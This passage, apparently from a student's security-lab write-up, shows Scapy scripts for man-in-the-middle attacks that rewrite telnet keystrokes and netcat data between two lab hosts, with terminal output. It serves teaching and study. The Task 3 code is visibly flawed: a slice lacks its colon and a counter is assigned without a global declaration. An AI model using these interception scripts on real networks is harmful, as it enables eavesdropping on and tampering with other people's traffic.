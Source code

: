 ```python3
        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))/TCP(bytes(pkt[TCP]))
            del(newpkt.chksum)
            del(newpkt[TCP].chksum)
            send(newpkt)

#we only want to spoof packets between hosts A and B, so isolate their respective addresses
f = f'tcp and (ether src {MAC_A} or ether src {MAC_B})'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```
This will alter the data from A to B such that, whatever A inputs will be replaced with the character Z

Let's run the script on host M and see what the telnet experience becomes!
```shell
seed@9cd27edc87ad:~$ whoami
seed
seed@9cd27edc87ad:~$ wZZZZZZ
-bash: wZZZZZZ: command not found
seed@9cd27edc87ad:~$ lZZZ
-bash: lZZZ: command not found
seed@9cd27edc87ad:~$ hZZZZZZpZ
-bash: hZZZZZZpZ: command not found
seed@9cd27edc87ad:~$
```
as we can see, it renders the telnet client unusable. Here's what it looks like in wireshark:
![image](https://github.com/user-attachments/assets/2c1eed7f-66fa-4e75-bfef-a6c24820dbf8)

## Task 3: MITM Attack Against Netcat
This task is to replace every occurrence of my first name in a netcat connection between hosts A and B the with a sequence of A’s. We can use a slightly modified version of task 3's MITM scapy script:
```python3
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
seq_offset = 0

def spoof_pkt(pkt):
    if IP in pkt and TCP in pkt:
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            # Create a new packet based on the captured one.
            L3 = IP(src=pkt[IP].src, dst=pkt[IP].dst)
            L4 = TCP(sport=pkt[TCP].sport, dport=pkt[TCP].dport, flags=pkt[TCP].flags, seq=pkt[TCP].seq + seq_offset, ack=pkt[TCP].ack)
            # Construct the new payload based on the old payload.
            if pkt[TCP].payload:
                data = pkt[TCP].payload.load # The original payload data
                if b"daniel" in data.lower().split():
                    idx = data.lower().find(b"daniel")
                    newdata = data[:idx] + b"AAAAAA" + data[idx + len(b"daniel")]
                    print(f"replaced {data} with {newdata}")
                    seq_offset += len(newdata) - len(data)
                    data = newdata
                newpkt = L3/L4/data
                del(newpkt.chksum)
                del(newpkt[TCP].chksum)
                send(newpkt)
            else:
```
